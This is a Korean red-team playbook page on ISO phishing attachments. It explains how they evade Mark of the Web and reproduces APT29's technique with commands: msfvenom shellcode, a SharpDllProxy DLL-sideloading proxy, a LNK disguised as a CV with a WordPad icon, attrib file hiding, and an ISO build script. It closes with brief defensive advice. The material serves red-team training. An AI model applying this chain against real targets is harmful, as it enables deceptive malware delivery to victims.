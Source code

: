 # ISO

악성 오피스 문서의 시대가 저무며 공격자들은 더 다양한 피싱 첨부파일 형태를 찾기 시작했다. 2022년도 기준으로 실제 공격자들이 공격에 자주 쓰는 확장자 중 하나는 바로 `.iso` 이다. ISO (Optical Disk Image) 파일 포멧은 이미지 파일로도 불리며, CD/DVD/블루레이 등의 옵티컬 디스크의 특징을 갖고 있는 파일 포멧 중 하나다. &#x20;

공격자들이 ISO 파일을 피싱 첨부파일로 자주 사용하는 이유는 다음과 같다:&#x20;

#### 1. Mark of the Web (MOTW) 가 없다&#x20;

인터넷에서 다운 받은 `.exe` `.dll` 등의 파일들은 윈도우의 NTFS 파일 시스템의 특징 중 하나인 Alternate Data Stream (ADS) 에 "인터넷에서 다운 받은 파일" 이라는 낙인(?)이 찍힌다. 이것을 Mark of the Web 이라고 부른다. MotW 이 찍힌 파일은 실행하려고 하면 유저에게 경고창을 띄우는 역할을 담당한다. 이는 피싱 첨부파일을 유저가 실행하지 않도록 하는데 큰 도움을 준다.&#x20;

![이런 경고창 한 번 쯤은 본 기억이 있지 않은가](<../../.gitbook/assets/image (11).png>)

하지만 이런 MotW 낙인이 붙지 않는 파일 확장자들도 있다. 7Z, ZIP, ISO, IMG, CAB 등의 파일 확장자들이 대표적이다.&#x20;

#### 2. ISO는 압축 파일 형태다&#x20;

ISO 파일들은 컴팩트 디스크 이미지 파일이고, ISO 파일 포멧안에는 여러개의 파일을 압축시켜 놓을 수 있다. 사실상 공격자의 입장에서는 `.zip` 혹은 `.7z` 와 같은 파일을 보내는 것이다. ISO 파일 안에 다른 페이로드들을 같이 숨겨 압축 시켜 놓은 형태로 파일을 전송한다. 이때 숨김 파일 (TODO: 페이지 생성 + 링크) 기법을 이용해 ISO 안에 다른 파일들이 보이지 않도록 하는 방법도 쓴다.&#x20;

#### 3. 실행이 간편하다&#x20;

피해자 유저가 ISO 파일을 더블클릭을 하면 파일은 자동적으로 파일 시스템에 마운트가 되며, 그 안의 파일들은 모두 압축이 풀린 형태로 파일 시스템에 쓰여진다. 그러면서 피해자 유저는 압축 풀린 페이로드들이 있는 디렉토리에 도달하게 된다.&#x20;



### 실습&#x20;

실습에서는 APT29 그룹이 실제 공격에 사용했던 페이로드를 똑같이 재현해본다. APT29 그룹은 ISO 파일 안에 마이크로소프트사의 바이너리인 `OneDriveStandAloneUpdater.exe` 를 넣은 뒤, `version.dll` DLL 파일을 사이드로딩을 했다. ISO 파일 안의 페이로드들은 다음과 같다:&#x20;

1. OneDriveStandAloneUpdater.exe - 마이크로소프트사의 공식 바이너리&#x20;
2. version.dll - 공격자의 프록시 DLL&#x20;
3. vresion.dll - 진짜 version.dll 파일. APT29 그룹은 `vresion` 으로 이름을 바꿨다.&#x20;
4. OneDrive.Update - 공격자의 쉘코드. 프록시 DLL 안에 넣어도 되는데 APT29는 굳이 파일 시스템에 저장했다.&#x20;
5. `Roshan-Bandara_CV_Dialog.lnk` - OneDriveStandAloneUpdater.exe 파일을 실행시킬 LNK 파일. LNK 파일이 악성코드에 사용될 수 있는 방법은 [LNK 첨부파일 페이지](lnk.md)를 참고한다.&#x20;

페이로드들은 다음과 같이 생성한다:&#x20;

1. 쉘코드를 생성한다&#x20;

```
msfvenom -p windows/x64/messagebox text="Stage0 shellcode" title="choi redteam playbook" -f raw -o OneDrive.Update
```

2\. SharpDLLProxy 를 통해 dllsideloading 을 할 프록시 DLL을 만든다. SharpDllProxy 를 실행 한 뒤 `version.dll` 은 `vresion.dll` 로 이름을 바꾼 뒤, DLL 사이드로딩을 할 디렉토리로 옮긴다.&#x20;

```
# <SharpDLLProxy directory...> 
cp c:\windows\system32\version.dll . 
./SharpDllProxy.exe --dll version.dll --payload OneDrive.Update

cp ./version.dll c:\opt\dllsideloading\vresion.dll 
```

3\. SharpDLLProxy 가 만든 `.c` 파일을 수정한 뒤, 컴파일 한다. 맨 위의 `pragma comment` 에서 DLL 이름을 `tmpXXXX` 에서 `vresion` 으로 수정해주면 끝이다.&#x20;

![](<../../.gitbook/assets/image (5).png>)

4\. version.dll 로 컴파일 한다.&#x20;

5\. LNK 페이로드를 만든다.&#x20;

```
$obj = New-object -comobject wscript.shell
$link = $obj.createshortcut("C:\opt\dllsideloading\Roshan-Bandara_CV_Dialog.lnk")
$link.windowstyle = "7"
$link.targetpath = "C:\Windows\System32\cmd.exe"
$link.iconlocation = "C:\Program Files\Windows NT\Accessories\wordpad.exe"
# If you have office16, use the icon below 
#$link.iconlocation = "C:\Program Files (x86)\Microsoft Office\root\Office16\WORDICON.exe"
$link.arguments = "/c start OneDriveStandaloneUpdater.exe"
$link.save()
```

6\. 이후 `OneDriveStandaloneUpdater.exe`, `version.dll`, `vresion.dll`, `OneDrive.Update` , `Roshan-Bandara_CV_Dialog.lnk` 를 모두 ISO를 만들 디렉토리로 옮긴다.&#x20;

7\. `attrib.exe +h` 를 이용해 lnk 파일을 제외한 모든 파일들은 숨김 처리를 해준다.&#x20;

```
attrib.exe +h .\OneDrive.Update
attrib.exe +h .\OneDriveStandaloneUpdater.exe
attrib.exe +h .\version.dll
attrib.exe +h .\vresion.dll
```

8\. 마지막으로 iso를 다음의 파워쉘 스크립트를 이용해 만든다. 원본은 여기있다&#x20;

<details>

<summary>New-ISOFile.ps1</summary>

```
# https://github.com/SQLDBAWithABeard/Functions/blob/master/New-IsoFile.ps1
function New-IsoFile 
{  
  <# .Synopsis Creates a new .iso file .Description The New-IsoFile cmdlet creates a new .iso file containing content from chosen folders .Example New-IsoFile "c:\tools","c:Downloads\utils" This command creates a .iso file in $env:temp folder (default location) that contains c:\tools and c:\downloads\utils folders. The folders themselves are included at the root of the .iso image. .Example New-IsoFile -FromClipboard -Verbose Before running this command, select and copy (Ctrl-C) files/folders in Explorer first. .Example dir c:\WinPE | New-IsoFile -Path c:\temp\WinPE.iso -BootFile "${env:ProgramFiles(x86)}\Windows Kits\10\Assessment and Deployment Kit\Deployment Tools\amd64\Oscdimg\efisys.bin" -Media DVDPLUSR -Title "WinPE" This command creates a bootable .iso file containing the content from c:\WinPE folder, but the folder itself isn't included. Boot file etfsboot.com can be found in Windows ADK. Refer to IMAPI_MEDIA_PHYSICAL_TYPE enumeration for possible media types: http://msdn.microsoft.com/en-us/library/windows/desktop/aa366217(v=vs.85).aspx .Notes NAME: New-IsoFile AUTHOR: Chris Wu LASTEDIT: 03/23/2016 14:46:50 #> 
   
  [CmdletBinding(DefaultParameterSetName='Source')]Param( 
    [parameter(Position=1,Mandatory=$true,ValueFromPipeline=$true, ParameterSetName='Source')]$Source,  
    [parameter(Position=2)][string]$Path = "$env:temp\$((Get-Date).ToString('yyyyMMdd-HHmmss.ffff')).iso",  
    [ValidateScript({Test-Path -LiteralPath $_ -PathType Leaf})][string]$BootFile = $null, 
    [ValidateSet('CDR','CDRW','DVDRAM','DVDPLUSR','DVDPLUSRW','DVDPLUSR_DUALLAYER','DVDDASHR','DVDDASHRW','DVDDASHR_DUALLAYER','DISK','DVDPLUSRW_DUALLAYER','BDR','BDRE')][string] $Media = 'DVDPLUSRW_DUALLAYER', 
    [string]$Title = (Get-Date).ToString("yyyyMMdd-HHmmss.ffff"),  
    [switch]$Force, 
    [parameter(ParameterSetName='Clipboard')][switch]$FromClipboard 
  ) 
  
  Begin {  
    ($cp = new-object System.CodeDom.Compiler.CompilerParameters).CompilerOptions = '/unsafe' 
    if (!('ISOFile' -as [type])) {  
      Add-Type -CompilerParameters $cp -TypeDefinition @'
public class ISOFile  
{ 
  public unsafe static void Create(string Path, object Stream, int BlockSize, int TotalBlocks)  
  {  
    int bytes = 0;  
    byte[] buf = new byte[BlockSize];  
    var ptr = (System.IntPtr)(&bytes);  
    var o = System.IO.File.OpenWrite(Path);  
    var i = Stream as System.Runtime.InteropServices.ComTypes.IStream;  
   
    if (o != null) { 
      while (TotalBlocks-- > 0) {  
        i.Read(buf, BlockSize, ptr); o.Write(buf, 0, bytes);  
      }  
      o.Flush(); o.Close();  
    } 
  } 
}  
'@  
    } 
   
    if ($BootFile) { 
      if('BDR','BDRE' -contains $Media) { Write-Warning "Bootable image doesn't seem to work with media type $Media" } 
      ($Stream = New-Object -ComObject ADODB.Stream -Property @{Type=1}).Open()  # adFileTypeBinary 
      $Stream.LoadFromFile((Get-Item -LiteralPath $BootFile).Fullname) 
      ($Boot = New-Object -ComObject IMAPI2FS.BootOptions).AssignBootImage($Stream) 
    } 
  
    $MediaType = @('UNKNOWN','CDROM','CDR','CDRW','DVDROM','DVDRAM','DVDPLUSR','DVDPLUSRW','DVDPLUSR_DUALLAYER','DVDDASHR','DVDDASHRW','DVDDASHR_DUALLAYER','DISK','DVDPLUSRW_DUALLAYER','HDDVDROM','HDDVDR','HDDVDRAM','BDROM','BDR','BDRE') 
  
    Write-Verbose -Message "Selected media type is $Media with value $($MediaType.IndexOf($Media))"
    ($Image = New-Object -com IMAPI2FS.MsftFileSystemImage -Property @{VolumeName=$Title}).ChooseImageDefaultsForMediaType($MediaType.IndexOf($Media)) 
   
    if (!($Target = New-Item -Path $Path -ItemType File -Force:$Force -ErrorAction SilentlyContinue)) { Write-Error -Message "Cannot create file $Path. Use -Force parameter to overwrite if the target file already exists."; break } 
  }  
  
  Process { 
    if($FromClipboard) { 
      if($PSVersionTable.PSVersion.Major -lt 5) { Write-Error -Message 'The -FromClipboard parameter is only supported on PowerShell v5 or higher'; break } 
      $Source = Get-Clipboard -Format FileDropList 
    } 
  
    foreach($item in $Source) { 
      if($item -isnot [System.IO.FileInfo] -and $item -isnot [System.IO.DirectoryInfo]) { 
        $item = Get-Item -LiteralPath $item
      } 
  
      if($item) { 
        Write-Verbose -Message "Adding item to the target image: $($item.FullName)"
        try { $Image.Root.AddTree($item.FullName, $true) } catch { Write-Error -Message ($_.Exception.Message.Trim() + ' Try a different media type.') } 
      } 
    } 
  } 
  
  End {  
    if ($Boot) { $Image.BootImageOptions=$Boot }  
    $Result = $Image.CreateResultImage()  
    [ISOFile]::Create($Target.FullName,$Result.ImageStream,$Result.BlockSize,$Result.TotalBlocks) 
    Write-Verbose -Message "Target image ($($Target.FullName)) has been created"
    $Target
  } 
} 
```

</details>

```
# Move to the payload directory and create the ISO file 
. ./New-ISOFile.ps1 
cd c:\opt\dllsideloading 
get-childitem . -Force | New-IsoFile -Path C:\opt\Roshan_CV.iso
```

완성된 페이로드는 다음과 같다.&#x20;



![](../../.gitbook/assets/apt29-iso.gif)

ISO를 더블클릭하면 드라이브에 마운트가 된다. 안에는 LNK 파일 밖에 보이지 않지만, 실제로는 숨겨진 파일들이 존재하고, 이 파일들이 DLL 사이드로딩을 일으켜 페이로드가 실행되게 된다.&#x20;



### 대응 방안&#x20;

ISO 파일은 수상하다. 왠만한 웹앱 기반의 이메일이나 이메일 솔루션들은 파일을 다운 받기 전 파일의 확장자를 보여준다. 분명 본인이 디스크 파일을 다운 받는 것이 아닌데 다른 사람이 뜬금없이 ISO 파일을 보내왔다면, 더 주의를 기울이도록 하자.&#x20;

예를 들어 APT 29 같은 경우 외국의 자기소개서/레지메 같은 CV 파일을 ISO 파일에 담아서 보냈다. 회사 지원시 레지메를 낼 때 PDF 말고 다른 확장자를 썼던 기억이 있던가? 없다. 이처럼 ISO 확장자가 굳이 필요한 상황이 아닌데 상대방이 ISO 파일을 보내왔다면 조심한다. &#x20;

그외에는 윈도우 익스플로러의 View -> Options -> View 에서 다음과 같은 옵션들을 활성화 시킨다.&#x20;

* Show hidden files, folders, and drives (숨겨진 파일, 폴더, 드라이브 보이기) **활성화**&#x20;
* Hide extensions from known file types (잘 알려진 파일 확장자 숨기기) **비활성화**



### 레퍼런스&#x20;

{% embed url="https://github.com/mgeeky/PackMyPayload" %}

{% embed url="https://outflank.nl/blog/2020/03/30/mark-of-the-web-from-a-red-teams-perspective/" %}

{% embed url="https://unit42.paloaltonetworks.com/brute-ratel-c4-tool/" %}
